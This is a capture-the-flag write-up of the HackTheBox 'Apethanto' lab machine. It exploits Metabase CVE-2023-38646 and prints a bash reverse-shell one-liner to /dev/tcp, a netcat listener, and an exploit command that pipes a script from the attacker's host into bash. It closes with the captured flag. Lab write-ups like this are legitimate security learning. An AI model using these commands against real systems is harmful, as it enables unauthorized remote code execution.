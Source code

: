 # Description

Apethanto

### PS

While making this, the server is already down so I will just explain every detailed for this challenges

## Machine
First lets connect to vpn. Download the VPN file of University  CTF 2023 and use `sudo openvpn VPN_FILE_Location`

![384562872_334647755980270_6305945319847782979_n](https://github.com/MyBoss214/HackTheBox/assets/149683905/d63d5954-ed11-4c28-93d4-170154518000)

Then go back to website of HTBCTF then go to `fullpwn` category and click `easy` then `deploy the machine`
after deploying the machine we will get the `Machine_IP_Address` for this challenge

# RECONNAISANCE

First is to gather information about this IP address of machine.
```
nmap -sS -sC -sV machine_IP_address
```

open ports `80`, `22`and `3000`

  - in port 3000 we will see the Jetty 11.0.14 and metabase

  - Through researching we see that the version is exploitable with `CVE-2023-38646`

  - use this [https://github.com/shamo0/CVE-2023-38646-PoC/blob/main/README.md](https://github.com/shamo0/CVE-2023-38646-PoC/blob/main/README.md) for exploit

    
# Exploitation

first got use `sudo nano /etc/hosts` to add hosts. replace IP_Address with `Machine_IP_Address`
![395243388_1387672582178772_352194472341723714_n](https://github.com/MyBoss214/HackTheBox/assets/149683905/c0612c9d-0d3f-4af6-a211-5ec6d6da618c)

Go to `http://metabase.apethanto.htb/api/session/properties` to get setup-token just like this in shamo0 github

![image](https://github.com/MyBoss214/HackTheBox/assets/149683905/529fa3b1-daa6-405f-89e7-2a54d35ad73b)

Create a shell.sh file containing a command script `sh -i >& /dev/tcp/attacker_IP/port 0>&1` replace attacker_ip with your `ip address` and port with your `server_port`

![385546818_200420423125664_8244732543944960905_n](https://github.com/MyBoss214/HackTheBox/assets/149683905/e0d7d336-4bfe-4b7b-866c-0d6b7136c0cc)

then in the same directory in shell.sh file run `python3 -m http.server server_port` to start a server. go to that server and you can see the shell.sh
![image](https://github.com/MyBoss214/HackTheBox/assets/149683905/43fd15f3-b06a-4ec7-b490-1f3b6b024936)

# Reverse shell
first start a server containing the shell.sh

![image](https://github.com/MyBoss214/HackTheBox/assets/149683905/9a0036ee-18e9-4130-9387-a41357c9fa42)

then use `nc -lvnp 4444` for listener. You can use any port

![image](https://github.com/MyBoss214/HackTheBox/assets/149683905/ea0d647f-1575-4cd8-9266-6fe69710b976)

Then use this command 
```
python3 CVE-2023-38646.py -u http://metabase.apethanto.htb -t SETUP-TOKEN -c "-X GET http://ATTACKER_IP_ADDRESS:8000/shell.sh | bash"
```
 make sure you are in CVE-2023-38646.py directory
- Replace `SETUP-TOKEN` with token we generate in `http://metabase.apethanto.htb/api/session/properties`
- Replace `ATTACKER_IP_ADDRESS with` Your IP Address
- you can use any port. In my case I use 8000

![Untitled](https://github.com/MyBoss214/HackTheBox/assets/149683905/460505c4-e976-48ed-8400-d90d3659dafb)

### Go back to your listener and you will get

![image](https://github.com/MyBoss214/HackTheBox/assets/149683905/19bfa7e8-aa26-4940-a182-19cc2e42ea4d)

And you are IN!

use `ls` to see the file in current directory and `cat file.txt` of the file name

`HTB{3d1d071e4a99135770f57b53ec1644d2}`
